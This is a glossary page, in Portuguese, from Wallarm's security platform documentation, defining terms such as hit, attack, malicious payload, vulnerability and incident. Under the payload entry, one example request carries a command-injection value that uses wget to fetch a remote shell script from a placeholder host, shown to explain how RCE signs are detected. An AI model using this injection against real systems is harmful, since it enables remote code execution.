 # Glossário

O glossário abrange as principais entidades do Wallarm para fornecer uma melhor compreensão da plataforma.

## Hit

Um hit é uma solicitação maliciosa serializada (solicitação maliciosa original e metadados adicionados pelo nó de filtragem), por exemplo:

![Exemplo de hit](images/user-guides/events/analyze-attack-raw.png)

[Detalhes dos parâmetros de hit](user-guides/events/analyze-attack.md#analyze-requests-in-an-attack)

## Ataque

Um ataque é um único hit ou vários hits agrupados pelas seguintes características:

* O mesmo tipo de ataque, o parâmetro com a carga maliciosa e o endereço ao qual os hits foram enviados. Os hits podem vir dos mesmos ou diferentes endereços IP e ter diferentes valores das cargas maliciosas dentro de um tipo de ataque.

   Este método de agrupamento de hits é básico e aplicado a todos os hits.
* O mesmo endereço IP de origem se a [trigger](user-guides/triggers/trigger-examples.md#group-hits-originating-from-the-same-ip-into-one-attack) apropriado estiver ativado. Outros valores de parâmetros de hit podem variar.

   Este método de agrupamento de hits funciona para todos os hits, exceto para os do tipo Brute force, Brute force, Forced browsing, BOLA (IDOR), Limite de recursos, Bomba de dados e tipos de ataque de patch virtual.

   Se os hits são agrupados por este método, o botão [**Marcar como falso-positivo**](user-guides/events/false-attack.md#mark-an-attack-as-a-false-positive) e a opção de [verificação ativa](about-wallarm/detecting-vulnerabilities.md#active-threat-verification) não estão disponíveis para o ataque.

Os métodos de agrupamento de hits listados não se excluem. Se os hits possuírem características de ambos os métodos, todos serão agrupados em um ataque.

Um exemplo de um ataque incluindo um único hit:

![Ataque com um hit](images/glossary/attack-with-one-hit-example.png)

Um exemplo de um ataque incluindo muitos hits:

![Ataque com vários hits](images/glossary/attack-with-several-hits-example.png)

## Carga Maliciosa

Uma parte de uma solicitação original contendo os seguintes elementos:

* Sinais de ataque detectados em uma solicitação. Se vários sinais de ataque caracterizando o mesmo tipo de ataque forem detectados em uma solicitação, apenas o primeiro sinal será registrado como uma carga.
* Contexto do sinal de ataque. O contexto é um conjunto de símbolos que antecedem e fecham os sinais de ataque detectados. Como o comprimento de uma carga é limitado, o contexto pode ser omitido se um sinal de ataque for de comprimento total da carga.

Por exemplo:

* Solicitação:

    ```bash
    curl localhost/?23036d6ba7=%3Bwget+http%3A%2F%2Fsome_host%2Fsh311.sh
    ```
* Carga maliciosa:

    ```bash
    ;wget+http://s
    ```

    Nesta carga, `;wget+` é o sinal de ataque [RCE](attacks-vulns-list.md#remote-code-execution-rce) e outra parte da carga é o contexto do sinal de ataque.

Como os sinais de ataque não são usados para detectar [ataques comportamentais](about-wallarm/protecting-against-attacks.md#behavioral-attacks), solicitações enviadas como parte de ataques comportamentais têm cargas vazias.

## Vulnerabilidade
Uma vulnerabilidade é um erro cometido por negligência ou informações inadequadas ao construir ou implementar uma aplicação web que pode levar a um risco de segurança da informação.

Os riscos de segurança da informação são:

* Acesso não autorizado a dados; por exemplo, acesso para ler e modificar os dados do usuário.
* Negação de serviço.
* Corrupção de dados e outros.

O tráfego da internet pode ser usado para detectar as vulnerabilidades, que é uma das funções do Wallarm, entre outras.

## Incidente de Segurança

Um incidente de segurança é uma ocorrência de exploração de vulnerabilidade. Um incidente é um [ataque](#attack) direcionado a uma vulnerabilidade confirmada.

Um incidente, como um ataque, é uma entidade externa ao seu sistema e é uma característica da Internet externa, não do sistema em si. Apesar do fato de que os ataques direcionados às vulnerabilidades existentes são minoria, eles são da maior importância em termos de segurança da informação. O Wallarm detecta automaticamente os ataques direcionados às vulnerabilidades existentes e os exibe como um objeto separado - incidente.

## Buffer Circular
Um buffer circular é uma estrutura de dados que utiliza um único buffer de tamanho fixo como se estivesse conectado de ponta a ponta.
[Veja na Wikipedia](https://en.wikipedia.org/wiki/Circular_buffer).

## Conjunto de regras personalizadas (o termo anterior é LOM)

Um conjunto de regras personalizadas é um conjunto de regras de segurança compiladas baixadas pelos nós do Wallarm do Cloud do Wallarm.

As regras personalizadas permitem que você configure regras individuais para o processamento de tráfego, por exemplo:

* Mascara dados sensíveis antes de carregar para o Wallarm Cloud
* Crie indicadores de ataque baseados em expressões regulares
* Aplique um patch virtual bloqueando solicitações que exploram uma vulnerabilidade ativa
* Desative a detecção de ataque em certas solicitações, etc.

Um conjunto de regras personalizadas não está vazio por padrão, ele contém as regras criadas para todos os clientes registrados no cloud, por exemplo, a regra do modo de filtragem com o valor da [**aba Configurações → Geral**](user-guides/settings/general.md).

[Mais detalhes sobre conjuntos de regras personalizadas](user-guides/rules/intro.md)

## Solicitação Inválida
Uma solicitação que foi verificada pelo nó de filtro e não coincide com as regras do LOM.

## Proxy Reverso
Um proxy reverso é um tipo de servidor proxy que recupera recursos em nome de um cliente de um servidor e retorna os recursos para o cliente como se eles se originassem do próprio servidor da web.
[Veja na Wikipedia](https://en.wikipedia.org/wiki/Reverse_proxy).

## Autoridade Certificadora
Uma autoridade certificadora é uma entidade que emite certificados digitais.
[Veja na Wikipedia](https://en.wikipedia.org/wiki/Certificate_authority).
